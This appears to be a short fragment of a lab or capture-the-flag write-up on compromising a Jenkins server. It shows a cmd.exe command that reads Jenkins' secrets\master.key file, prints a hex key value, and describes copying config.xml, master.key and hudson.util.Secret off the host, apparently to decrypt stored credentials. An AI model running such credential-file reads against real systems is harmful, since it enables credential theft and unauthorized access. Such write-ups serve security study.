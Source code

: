 ![image.png](image%2023.png)

`cmd.exe /c type "c:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key”`

![image.png](image%2024.png)

master.key: 

f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19

![image.png](image%2025.png)

save config.xml and master.key and hudson.util.Secret onto local machine, using vim

![image.png](image%2026.png)
